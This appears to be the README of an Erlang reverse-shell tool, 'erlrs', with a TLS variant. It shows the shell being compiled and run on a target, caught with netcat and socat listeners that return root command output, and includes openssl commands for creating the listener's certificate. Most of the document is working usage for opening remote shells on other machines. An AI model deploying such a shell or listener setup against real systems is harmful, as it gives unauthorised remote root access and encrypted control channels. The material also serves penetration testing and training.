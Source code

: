 # erlrs

erlang based reverse shell

**Usage**

erlrs.erl

Target
```
root@WOPR-KALI:/opt/erlrs# erlc erlrs.erl 
erlrs.erl:13: Warning: variable 'Reason' is unused
erlrs.erl:24: Warning: variable 'Reason' is unused
root@WOPR-KALI:/opt/erlrs# erl -noshell -s erlrs main

```

Listener
```
root@WOPR-KALI:~# nc -lvnp 8080
listening on [any] 8080 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 44983
uname -a
Linux WOPR-KALI 5.3.0-kali2-amd64 #1 SMP Debian 5.3.9-1kali1 (2019-11-11) x86_64 GNU/Linux
^C
```

erlrss.erl (tls)

Target
```
root@WOPR-KALI:/opt/erlrss# erlc erlrss.erl 
erlrss.erl:13: Warning: variable 'Reason' is unused
erlrss.erl:24: Warning: variable 'Reason' is unused
root@WOPR-KALI:/opt/erlrss# erl -noshell -s erlrss main

```

Listener
```
root@WOPR-KALI:/opt/erlrss# socat openssl-listen:443,reuseaddr,fork,cert=/opt/erlrs/root.pem,cafile=/opt/erlrs/root.crt,verify=0 -
id
uid=0(root) gid=0(root) groups=0(root)
```

Create root.pem:

```
openssl req \
-x509 \
-newkey rsa:4096 \
-sha256 \
-days 3560 \
-nodes \
-keyout root.key \
-out root.crt \
-subj '/CN=target.com' \
-extensions san \
-config <( \
  echo '[req]'; \
  echo 'distinguished_name=req'; \
  echo '[san]'; \
  echo 'subjectAltName=DNS:target.com')
```

![Screenshot from 2019-11-23 00-17-47](https://user-images.githubusercontent.com/56988989/69469085-e3644700-0d86-11ea-899d-07bd4f801bb9.png)

